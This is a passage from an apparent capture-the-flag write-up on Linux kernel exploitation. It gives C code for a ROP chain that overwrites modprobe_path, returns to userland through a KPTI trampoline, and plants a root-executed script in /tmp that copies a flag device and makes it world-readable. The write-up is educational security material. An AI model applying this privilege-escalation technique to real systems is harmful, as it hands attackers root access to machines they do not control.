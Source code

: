 ```C
    payload[off++] = 0x0; // rbp
    payload[off++] = pop_rax_ret; // return address
    payload[off++] = 0x782f706d742f; // rax <- "/tmp/x"
    payload[off++] = pop_rbx_r12_rbp_ret;
    payload[off++] = modprobe_path; // rbx <- modprobe_path
    payload[off++] = 0x0; // dummy r12
    payload[off++] = 0x0; // dummy rbp
    payload[off++] = write_ptr_rbx_rax_pop2_ret; // modprobe_path <- "/tmp/x"
    payload[off++] = 0x0; // dummy rbx
    payload[off++] = 0x0; // dummy rbp
    payload[off++] = kpti_trampoline; // swapgs_restore_regs_and_return_to_usermode + 22
    payload[off++] = 0x0; // dummy rax
    payload[off++] = 0x0; // dummy rdi
    payload[off++] = (unsigned long)get_flag;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;

    puts("[*] Prepared payload to overwrite modprobe_path");
    ssize_t w = write(global_fd, payload, sizeof(payload));

    puts("[!] Should never be reached");
}
```

### Executing arbitrary script
Now that `modprobe_path` is pointing to `/tmp/x`, what we would want to do is to write its content, which will be executed with root privileges. In this case, I will just write a simple shell script that copy the flag from `/dev/sda` into the `/tmp` directory and make it readable by all users. This is the script:
```bash
#!/bin/sh
cp /dev/sda /tmp/flag
chmod 777 /tmp/flag
```

After that, I write a dummy file which contains only `\xff` bytes, in order to make it an unknown file to the system, and then execute it. After it is finished executing, we should have the flag file in `/tmp` that can be read:
```C
void get_flag(void){
    puts("[*] Returned to userland, setting up for fake modprobe");
    
    system("echo '#!/bin/sh\ncp /dev/sda /tmp/flag\nchmod 777 /tmp/flag' > /tmp/x");
    system("chmod +x /tmp/x");

    system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/dummy");
    system("chmod +x /tmp/dummy");

    puts("[*] Run unknown file");
    system("/tmp/dummy");

    puts("[*] Hopefully flag is readable");
    system("cat /tmp/flag");

    exit(0);
}
```
